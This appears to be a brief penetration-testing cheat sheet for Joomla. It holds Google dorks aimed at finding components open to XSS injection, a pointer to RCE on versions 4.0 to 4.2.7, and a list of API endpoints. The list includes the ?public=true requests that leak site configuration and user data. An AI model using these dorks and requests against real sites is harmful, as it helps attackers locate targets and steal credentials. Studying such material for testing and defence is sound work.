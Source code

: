 ## Googl Dorks
site: target.com inurl:index.php?option=com
site: target.com inurl:Itemid= -intext:Joomla
*This dork searches for a vulnerable Joomla component where we can inject our XSS payload.*


## Work On 4.0 to 4.2.7
https://vulncheck.com/blog/joomla-for-rce

## Joomla API endpoint

```bash
/api/index.php/v1/config/application?public=true
/api/index.php/v1/users?public=true
v1/banners
v1/banners/:id
v1/banners
v1/banners/:id
v1/banners/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories/:id
v1/banners/:id/contenthistory
v1/banners/:id/contenthistory/keep
v1/banners/:id/contenthistory
v1/config/application
v1/config/application
v1/config/:component_name
v1/config/:component_name
v1/contacts/form/:id
v1/contacts
v1/contacts/:id
v1/contacts
v1/contacts/:id
v1/contacts/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
```
